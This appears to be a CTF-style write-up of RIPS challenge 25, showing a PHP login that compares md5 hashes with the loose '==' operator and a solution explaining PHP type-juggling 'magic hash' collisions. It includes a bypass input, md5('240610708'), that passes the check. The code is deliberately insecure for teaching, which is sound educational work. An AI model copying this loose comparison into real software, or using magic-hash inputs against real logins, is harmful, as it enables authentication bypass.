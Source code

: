 ```yaml
---

title: rips-25
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1200434742815907840" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
if(isset($_POST['password'])) {
    setcookie('hash', md5($_POST['password'])); 
    header("Refresh: 0");
    exit;
}

$password = '0e836584205638841937695747769655';
if(!isset($_COOKIE['hash'])) {
    echo '<form><input type="password" name="password" />'
        . '<input type="submit" value="Login"></form>';
    exit;
} elseif(md5($_COOKIE['hash']) == $password) {
    echo 'Login successed';
} else {
    echo 'Login failed';
}

{{< /code >}}

# Solution
{{< code language="php" highlight="14,15" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
if(isset($_POST['password'])) {
    setcookie('hash', md5($_POST['password'])); 
    header("Refresh: 0");
    exit;
}

$password = '0e836584205638841937695747769655';
if(!isset($_COOKIE['hash'])) {
    echo '<form><input type="password" name="password" />'
        . '<input type="submit" value="Login"></form>';
    exit;

// 1) hash is user input. php type juggling
//    will increase collisions and can be used to pass the check
} elseif(md5($_COOKIE['hash']) == $password) {
    echo 'Login successed';                   
} else {
    echo 'Login failed';
}


// example:
var_dump('0e836584205638841937695747769655' == '0e0');
// bool(true)
var_dump('0e836584205638841937695747769655' == '0e1');
// bool(true)
var_dump('0e836584205638841937695747769655' == '0e2');
// bool(true)
//...

var_dump('0e836584205638841937695747769655' == md5('240610708'));
// bool(true)
var_dump(md5('240610708'));
// string(32) "0e462097431906509019562988736854"

// src: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md


{{< /code >}}
